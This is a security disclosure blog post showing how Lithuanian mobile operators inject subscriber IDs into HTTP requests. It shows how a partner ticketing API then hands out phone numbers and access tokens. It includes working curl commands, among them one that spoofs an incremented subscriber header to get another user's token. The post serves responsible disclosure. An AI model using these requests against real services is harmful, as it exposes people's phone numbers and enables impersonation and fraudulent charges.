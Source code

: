 ```yaml
---
author:     Anonymous (Discovery) & Jaroslav Lobačevski (The article)
profileimage: anonymous.jpg
layout:     post
title:      "Privacy leaks in mobile internet era"
date:       2020-02-27 12:00:00
categories: HackAndTell MobileInternet
cover:      
permalink:  /en/blog/mobile-data-leak
---
```

> tl;dr: Ignorance of security issues by mobile operator partners leaks your phone number to malicious websites. Misconfigurations of mobile operators allow tracking you worldwide.  
Try it yourself - [Proof of Concept](#proof-of-concept).

It all starts from curiosity... Have you ever seen a mobile app asking you to turn off WIFI and switch to mobile internet in order to use it?  
There are at least few of them in Lithuania that offer login-less service if you are connected to the mobile internet:

* [m.Ticket](https://play.google.com/store/apps/details?id=lt.sisp.itero.ticket.client&hl=en) - 
An app that allows you to buy public bus tickets using your phone.
* [m.Parking](https://play.google.com/store/apps/details?id=lt.sisp.itero.parking.client&hl=en) - 
An app for paying for city parking using your phone. The parking fee is added to your phone bill.
* [Mobile wallet MoQ](https://play.google.com/store/apps/details?id=lt.momo.app&hl=en) - 
An app for online payments, paying in-store and transferring money.

### How does it work?

It may sound crazy, but the mobile operator injects your identity into the outgoing HTTP request. Officially it is called HTTP Header Enrichment. When a third-party web server receives your request it already contains what is the needed to identify a mobile user in a special HTTP header.

Let's check if that is true. First of all we need a server that would reflect back all HTTP headers it received from your browser. It is easy to write one by your own, but since we are lazy we'll use an already [existing one](http://postman-echo.com).

Connect a computer to your mobile device hotspot. Start a shell (command line) and run [curl](https://curl.haxx.se/) with the following arguments:
```
curl http://postman-echo.com/get
```
It returns the following response if you are not Tele2 user (showing just the important part):
```json
"headers": {
  "x-forwarded-proto": "https",
  "host": "postman-echo.com",
  "accept": "*/*",
  "user-agent": "curl/7.55.1",
  "x-forwarded-port": "80"
}
```
Nothing is suspicious here. This is because if configured correctly mobile operators inject headers only in a web request to white-listed partners. But not in Tele2 Lithuania case! It injects `"x-tele2-subid: 10.■■■.■■■.■■■` to **any unencrypted HTTP request**!

You may not see where the issue is... Yet it provides a [super cookie](https://en.wikipedia.org/wiki/HTTP_cookie#Other_uses) for any web site in the world. No matter if you switch the browser, clean cookies, use incognito mode - it uniquely identifies you as the same user. While you may share the same header with other Tele2 users nearby (something to be proved) it still gives a lot of information for a web sites to track you.

Let's switch our mobile provider and spoof the requested web site:
```
curl http://postman-echo.com/get --header "Host: mtis2.m-transportas.lt"
```
If correctly configured on mobile provider side the headers should not be injected because IP address of the request (the receiver is postman-echo.com) and the host name (mtis2.m-transportas.lt) doesn't match. However the following headers are injected in Bite case:
```
"bite-account-country": "LT",
"bite-account-id": "152■■■■■",
"bite-account-language": "LT",
"bite-account-type": "PREPAID",
"x-forwarded-server": "wap.bite.lt",
```
In Telia case:
```
"x-et-user-identity": "S9zdh■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■KUn3M"
```
### Things get worse. Partners come into play.
The host name we used above belongs to one of the white-listed partners. The company has created a web service that returns back a phone number among other things when a request from a mobile internet user is received. Let's try it:
```
curl --request POST http://mtis2.m-transportas.lt/api/token "Content-Type: application/x-www-form-urlencoded" -d "client_id=mticket&CountryCode=310&grant_type=mobileProvider"
```
The response:
```
{
  "userName": "3706■■■■■■■",
  "userType": 3,
  "client_id": "mticket",
  "access_token": "ey■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■■Ck",
  "expires_in": 900,
  "refresh_token": "9c■■■■■■■■■■■■■■■■■■■■■■8d",
  "refresh_token_expires_in": 604800,
  "ticketInspectorGroupId": 0,
  "ticketInspectorLeader": false,
  "client_owner_code": null,
  "notifications": [
  ]
}
```
The service is public and the first line leaks your phone number. How could it be exploited?  
A malicious web page may run a javascript that calls mtis2.m-transportas.lt on your behalf. But if your provider is Tele2 it is even worse: `x-tele2-subid` gets injected into all unencrypted web site requests. So a malicious site may call mtis2.m-transportas.lt with the leaked `x-tele2-subid` and retrieve the phone number on the server side. This way it is impossible to detect the abuse from the client!
### Proof of concept:
Works with any Lithuanian mobile provider. Turn off WIFI and click on the link in your mobile device.
[http://www.devsecurity.eu/mobile-data-leak/](http://www.devsecurity.eu/mobile-data-leak/)

![Screenshot](mobile-data-leak-poc.png)

### Does the injected header prove anything?
So these white-listed partners make security sensitive decisions based on a presence of a header. Let's try spoofing the identity. This time switch to WIFI and run the following command:
```
curl --request POST http://mtis2.m-transportas.lt/api/token "Content-Type: application/x-www-form-urlencoded" -d "client_id=mticket&CountryCode=310&grant_type=mobileProvider" --header "x-tele2-subid: {your id from previous runs incremented by one}"
```
You will receive the token id for a user with completely different phone number! The service got fooled even though we connected not from a mobile network. While possibly there is no threat in someone spoofing your identity to buy you tickets, you wouldn't like to get a bill in the end of a month for a parking or mobile payments (up to 50 Eur?) you didn't do. The presence of the special headers cannot be used to prove your identity.

### Conclusions
The HTTP Header Enrichment is an ancient technique from the dark ages of internet when most of the traffic was unencrypted (related risks were even published in [2010 by Collin Mulliner](http://www.mulliner.org/security/feed/random_tales_mobile_hacker.pdf)). It should be abandoned as insecure and violating users' privacy. Meanwhile you have the options:
* Do not use mobile internet.
* If using mobile internet from a laptop browser, install HTTPS Everywhere extension.
* Always use VPN.
